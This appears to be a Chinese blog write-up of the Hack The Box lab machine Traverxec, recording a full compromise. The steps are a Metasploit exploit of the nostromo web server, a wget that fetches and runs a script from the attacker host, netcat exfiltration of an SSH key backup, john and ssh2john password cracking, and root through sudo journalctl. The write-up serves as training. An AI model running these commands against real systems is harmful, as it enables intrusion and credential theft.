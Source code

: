 ```yaml
---
title: Traverxec（ssh2john爆破id_rsa对应密码）
categories:
- training
tags:
- training
---
```


参考资料：[https://whale3070.github.io/training/2019/01/07/x/](https://whale3070.github.io/training/2019/01/07/x/)

10.10.10.165

```
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u1 (protocol 2.0)
| ssh-hostkey: 
|   2048 aa:99:a8:16:68:cd:41:cc:f9:6c:84:01:c7:59:09:5c (RSA)
|   256 93:dd:1a:23:ee:d7:1f:08:6b:58:47:09:73:a3:88:cc (ECDSA)
|_  256 9d:d6:62:1e:7a:fb:8f:56:92:e6:37:f1:10:db:9b:ce (ED25519)
80/tcp open  http    nostromo 1.9.6
|_http-server-header: nostromo 1.9.6
|_http-title: TRAVERXEC
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
## web
searchsploit  nostromo
```
nostromo nhttpd is prone to a remote command-execution vulnerability because it fails to properly validate user-supplied data.

An attacker can exploit this issue to access arbitrary files and execute arbitrary commands with application-level privileges.

nostromo versions prior to 1.9.4 are affected.
```
msfconsole
```
search nostromo
use 0
set RHOSTS 10.10.10.165
set LHOST 10.10.14.8
run
```
得到一个www-data权限的shell

cat /etc/passwd | grep home
david:x:1000:1000:david,,,:/home/david:/bin/bash
```
python -c 'import pty; pty.spawn("/bin/bash")'
```
## 不尝试内核漏洞提权
```
uname -a
Linux traverxec 4.19.0-6-amd64 #1 SMP Debian 4.19.67-2+deb10u1 (2019-09-20) x86_64 GNU/Linux

whereis gcc
```
没有编译器，故不尝试内核漏洞提权。

```
wget http://10.10.14.4:8000/linux-exploit-suggester.sh -P /tmp

chmod +x /tmp/linux-exploit-suggester.sh

cd /tmp;./linux-exploit-suggester.sh
Possible Exploits:

[+] [CVE-2009-1185] udev 2

   Details: https://www.exploit-db.com/exploits/8478/
   Download URL: https://www.exploit-db.com/download/8478
   Comments: SSH access to non privileged user is needed. Version<1.4.1 vulnerable but distros use own versioning scheme. Manual verification needed
```

## 查找机密文件
find / -name "index.html" 2>/dev/null
找到web目录，查看是否有config文件
/var/nostromo/htdocs/index.html

---
find / -name "*rsa" 2>/dev/null
没找到

---

find / -name "*ssh*" 2>/dev/null

find / -name "backup*" 2>/dev/null

---
cd /var/nostromo/conf;cat .htpasswd

`david:$1$e7NfNpNi$A6nCwOTqrNR2oDuIKirRZ/`

---

```
cd /home
ls -al
drwx--x--x  5 david david 4096 Oct 25 17:02 david
```
其他用户只有可执行权限，没有可读权限

---

cd /var/nostromo/conf;cat nhttpd.conf
```
# HOMEDIRS [OPTIONAL]

homedirs		/home
homedirs_public		public_www
```
从这里得知，/home/david可能有public_www的目录

```
cd /home/david/public_www;ls -al
cd  /home/david/public_www/protected-file-area;ls -al
download backup-ssh-identity-files.tgz backup.tgz
```
不能用download命令，只有meterpreter才可以使用download进行文件下载。

---
**kali主动连接目标机器，失败**
nc -lnvp 8888 < backup-ssh-identity-files.tgz
端口不能小于1024


nc 10.10.10.165 8888 -w 10 > backup-ssh-identity-files.tgz

---
**目标机器主动连接kali，成功**
kali: nc -lnvp 8888 > backup-ssh-identity-files.tgz
目标机器：nc 10.10.14.8 8888 -w 10 < backup-ssh-identity-files.tgz

**解压**
gunzip  backup-ssh-identity-files.tgz
解压后，发现/home/david目录下有`authorized_keys  id_rsa  id_rsa.pub`

## 密码破解

john --wordlist=rockyou.txt whatpass.txt
```
Warning: detected hash type "md5crypt", but the string is also recognized as "md5crypt-long"
Use the "--format=md5crypt-long" option to force loading these as that type instead
Using default input encoding: UTF-8
Loaded 1 password hash (md5crypt, crypt(3) $1$ (and variants) [MD5 128/128 AVX 4x3])
Press 'q' or Ctrl-C to abort, almost any other key for status
Nowonly4me       (?)
1g 0:00:04:04 DONE (2019-12-30 15:08) 0.004088g/s 43248p/s 43248c/s 43248C/s Noxema..Nowhere
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```
加密格式为md5crypt-long，尝试切换用户，失败
su david/Nowonly4me

su root/Nowonly4me
失败

## ssh登陆

`ssh david@10.10.10.165 -i id_rsa`
输入密码Nowonly4me，失败

```
locate ssh2john
cd /usr/share/john
python ssh2john.py 
```
运行后提示了用法

```
python ssh2john.py /root/Documents/target/165/home/david/.ssh/id_rsa > /tmp/out.txt

cat /tmp/out.txt

john /tmp/out.txt --wordlist=/usr/share/wordlists/rockyou.txt
```
![1](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/01-01-08/1.PNG)

得出了id_rsa对应的密码

## 提权

参考资料：https://gtfobins.github.io/gtfobins/journalctl/

journalctl 用来查询 systemd-journald 服务收集到的日志。
再次尝试ssh登陆，`ssh david@10.10.10.165 -i id_rsa`，输入密码，登陆成功。

```
cd /home/david/bin;ls
cat *.conf
/usr/bin/sudo /usr/bin/journalctl -n5 -unostromo.service
!/bin/bash
```
![2](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/01-01-08/2.PNG)

## 总结
本次学到了两个知识点：
1. locate ssh2john
```
python ssh2john.py id_rsa > out.txt
john out.txt --wordlist=字典
```
可以在有id_rsa私钥的情况下，爆破ssh密码

2. 通过二进制可执行程序的提权方式[gtfobins](https://gtfobins.github.io/)，下次再开一篇讲解。
